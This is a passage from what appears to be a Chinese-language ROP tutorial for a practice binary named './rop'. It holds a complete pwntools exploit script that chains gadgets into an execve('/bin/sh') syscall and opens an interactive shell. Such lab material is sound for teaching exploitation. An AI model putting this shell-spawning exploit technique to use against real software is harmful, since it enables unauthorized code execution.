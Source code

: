 <div align=center><img src="./images/24.png"></div>

接着需要获得`/bin/sh`字符串对应的地址.

<div align=center><img src="./images/25.png"></div>

最后获取`int 0x80`的地址.

<div align=center><img src="./images/26.png"></div>

`exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x080be408

# flat模块能将pattern字符串和地址结合并且转为字节模式
payload = flat(['a' * 0x70, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```
